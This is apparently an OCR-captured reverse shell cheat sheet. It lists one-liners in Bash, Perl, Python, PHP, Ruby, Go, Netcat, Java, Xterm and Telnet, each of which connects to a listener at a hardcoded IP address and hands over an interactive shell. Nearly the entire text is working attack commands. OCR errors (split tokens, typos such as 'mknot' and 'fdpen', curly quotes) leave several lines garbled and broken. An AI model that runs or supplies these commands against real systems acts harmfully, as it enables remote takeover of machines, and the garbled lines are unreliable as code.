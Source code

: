 # Reverse Shells

Bash
- bash -i >& /dev/tcp/10.11.0.236/8080 0>&1
- exec /bin/bash 0&0 2>&0
- 0<&196;exec 196<>/dev/tcp/192.168.49.163/8080; sh <&196 >&192 2>&196
- exec 5<>/dev/tcp/10.11.0.236/808; cat <&5 | while read line; do $ line 2>&5 >&5; done # or: while read line 0<&5; do $line 2>&5 >&5; done

Perl
- perl -e ‘use Socket;$i="10.11.0.87";$ p=8181;socket(S,PF _INET,SO C K_STREA M,getprotoby name("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};’
- perl -MIO -e ‘$ p=fork;exit,if($ p);$ c=new IO ::Socket::INET(PeerA ddr, “10.11.0.236:4567”);STDIN->fdopen($c,r);$~->fdpen($c,w);system$_ while<>;’
- perl -MIO -e ‘$ c=new IO ::Socket::INET(PeerA ddr,"10.11.0.236:4567");STDIN->fdopen($ c,r);$~->fdopen($c,w );system $_ while<>;’

Python
- python -c ‘import socket,subprocess,os;s=socket.socket(socket.A F _INET,socket.SO C K_STREA M);s.connect(("10.11.0.87",4567));os.dup2
(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

PHP
- php -r ‘$socket=fsockopen(’10.11.0.236',8080);exec("/bin/sh -i <&3 >&3 2>&3");'

Ruby
- ruby -rsocket -e 'f=TC PSocket.open("10.11.0.236",8080).to_i;exec sprint("/bin/sh -i <&% d >&% d 2>&% d",f,f,f)'
- ruby -rsocket -e ‘exit if fork;c=TC PSocket.new ("10.11.0.236","4567");w hile(cmd=c.gets);IO .popen(cmd,"r") {|io|c.print io.read}end’
- ruby -rsocket -e' c=TC PSocket.new ("10.11.0.236","4567");w hile(cmd=c.gets);IO .popen(cmd,"r") {|io|c.print io.read}end'

GOLANG
- echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","0.0.0.0:4444");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go

Netcat
- rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 192.168.49.163 8080 >/tmp/f

Java
- r = Runtime.getRuntime(); p = r.exec(["/bin/bash","-c","exec 5<>/dev /tcp/192.168.49.90/8080;cat <75 | w hile read line; do \$line 2>&5
>&5; done"]; as String[]); p.waitFor()

Xterm
- xterm -display 10.11.0.236:1 (TC P port 6001) (Start an X-Serv er) (# Xnest :1) (You'll need to authorize the target to connect to y ou)
(# xhost +targetip, run on host)
Telnet
- rm -f /tmp/p; mknot /tmp/p p && telnet 10.11.0.236 4445 0/tmp/p
- telnet 10.11.0.236 4444 | /bin/bash | telnet 10.11.0.236 4445 ## Remember to listen on y our rmachine also on port 4445/tcp
